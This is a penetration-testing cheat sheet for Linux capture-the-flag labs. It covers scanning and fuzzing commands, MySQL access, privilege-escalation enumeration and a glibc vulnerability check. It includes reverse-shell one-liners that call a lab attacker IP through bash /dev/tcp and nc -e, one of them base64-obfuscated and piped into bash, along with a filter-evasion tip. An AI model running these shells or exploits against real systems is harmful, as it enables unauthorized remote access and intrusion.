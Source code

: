 # Linux CheatSheet
## General

```bash
mkdir nmap
nmap -A -T4 -v -oN nmap/initial $IP 
sudo masscan -p1-65535,U:1-65535 $IP --rate=1000 -e tun0 -oL nmap/masscan

hosts
#alias for 'sudo nano /etc/hosts'

dirsearch -u $URL
gobuster dir -u $URL -w /home/kali/directory-list-2.3-medium.txt

ffuf -c -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-20000.txt -u http://devvortex.htb -H "Host:FUZZ.devvortex.htb" -mc 200,204,301,307,401,403,405,500
#fuzzes subdomains

wpscan --url <url> -v -e 

sudo responder -wA -I tun0 -v 
#Spoofs every server imaginable to get info on connection attempts

```
Always google open ports, not just services shown/guessed by nmap

.dockerenv in / means you're in a docker container
${IFS} can be used in place of whitespace when no whitespace allowed
jd-gui used to decompile jar files
gitdump used to dump .git directories

## MySQL

```bash
mysql -u <username> -p 
#connect to mysql database on machine
show databases;
use <databasename>;
show tables;

```

## RevShells

```bash
bash -i >& /dev/tcp/10.10.14.205/8888 0>&1
nc 10.10.14.54 8888 -e bash

echo "bash -i >& /dev/tcp/10.10.14.205/8888 0>&1" | base64
echo "YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC41NC84ODg4IDA+JjE=" | base64 -d | bash

which python
which python3

python -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

stty raw -echo #with ctrl-z/backgrounded
fg
export TERM=xterm
reset
```

/home/kali/php-reverse-shell.php is php reverse shell that can be uploaded to php server

## PrivEsc

```bash
sudo -l 
#shows any commands to be run as sudo by user

chmod +x pspy && ./pspy 
#sees all commands run, can find cron run as sudo etc

/home/kali/linpeas.sh 
#good tool for PE enum

env 
#shows env variables, could have creds

uname -a 
#shows linux build, could be vuln

ldd --version
#shows GLIBC version, could be vuln (loonytoonables)
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
#checks for loonytoonables vuln, if returns Segmentation fault (core dumped)

ps aux

find . -type f -name "*.txt"
#find all files with extension in current dir

find / -perm -u=s -type f 2>/dev/null 
#finds suid bit

cd /var/mail && cd /var/spool/mail
#check for mail

```

look in all interesting folders, .git, .config, /var/www, /, .local
check /var/www, use ls -la. .env is common php password storage thingie

## Web

https://beautifier.io/ - Use detect packers & obfuscators
https://blog.g0tmi1k.com/2011/08/basic-linux-privilege-escalation/
